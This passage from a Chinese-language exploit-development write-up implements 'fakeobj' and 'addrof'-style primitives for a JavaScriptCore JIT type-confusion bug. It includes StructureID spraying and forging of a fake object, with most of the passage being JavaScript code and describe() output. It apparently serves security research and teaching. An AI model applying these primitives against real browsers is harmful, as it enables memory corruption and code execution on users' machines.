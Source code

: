```
0x7fffaf4b00b0:	0x0000000000000000	0x0000000000000000
```

原语`fakeobj`的实现如下，传入参数为需要伪造对象的地址，在函数`AddrSetter()`里因为JIT认为数组`array`始终为浮点数数组，所以直接写入数据而不修改标志位
```javascript
function fakeobj(dbl) {
    var array = [13.37];
    var reg = /abc/y;
    var AddrSetter = function(array) {
      "abc".match(reg);
      array[0] = dbl;
    }
    for (var i = 0; i < 10000; ++i)
      AddrSetter(array);
    regexLastIndex = {};
    regexLastIndex.toString = function() {
      array[0] = {};
      return "0";
    };
    reg.lastIndex = regexLastIndex;
    AddrSetter(array);
    return array[0];
}
```

总结一下整个过程：先Spray占位一个`StructureID`，利用原语`addrof`获取fake对象地址，通过fake对象进行内存风水，将fake对象第一个属性构造成合法对象的JSCell，此时使用原语`fakeobj`即可获得一个伪造对象`real_fake`

完整测试一遍
```javascript
function addrof(val) { ... }

function fakeobj(dbl) { ... }

for (var i = 0; i < 0x1000; i++) {
    obj = {}; 
    obj.x = 1; 
    obj['prop_' + i] = 2;
}

fake = {};
fake.x = 7.082855106403439e-304;
fake.y = 2;
fake.z = 3;
delete fake.y;

print(describe(fake));
// Object: 0x7fffadefd580 with butterfly (nil) (Structure 0x7fffadef4a80:[Object, {x:0, z:2}, NonArray, Proto:0x7fffaf4b4000, UncacheableDictionary, Leaf]), StructureID: 4458

buf = new ArrayBuffer(8);
u32 = new Uint32Array(buf);
f64 = new Float64Array(buf);

f64[0] = addrof(fake);    // 6.95328778531324e-310 浮点数读取fake对象地址
u32[0] += 0x10;    // u32[0]的值为0xadefd580，计算结果为0xadefd590
real_fake = fakeobj(f64[0])    // 6.95328778531403e-310 浮点数读取修改偏移后的f64[0]

print(describe(real_fake)) // 确定成功获取对象
// Object: 0x7fffadefd590 with butterfly (nil) (Structure 0x7fffae21e7d0:[Object, {x:0, prop_3736:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 4096
```
